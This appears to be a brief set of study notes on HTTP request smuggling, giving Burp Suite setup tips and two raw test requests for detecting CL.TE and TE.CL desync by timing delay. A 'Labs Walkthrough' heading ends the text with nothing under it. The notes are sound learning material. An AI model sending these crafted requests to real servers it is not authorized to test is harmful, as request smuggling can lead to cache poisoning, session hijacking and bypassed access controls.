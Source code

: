 # HTTP Request Smuggling Notes

You need to include the trailing sequence `\r\n\r\n` in burp following the 0 in requests using TE.CL

In addition, in burp uncheck the `Update Content-Length` header

## Methodology

### CL.TE example test

Example request to test for CL.TE

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

Content-Length will be forwarded as it fits correctly, omitting the X. Then the Transfer-Encoding of the backend will process the first chunk (The 1, and A), then come to the X and awai for the next chunk to arrive causing a time delay.

### TE.CL Example test

Example request to test for TE.CL

```
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

The transfer encoding header gets checked and only passes part of the request, omitting the X. The back-end server uses the `Content-Length` header, expects more content in the message body and waits causing the time delay to detect.

## Labs Walkthrough
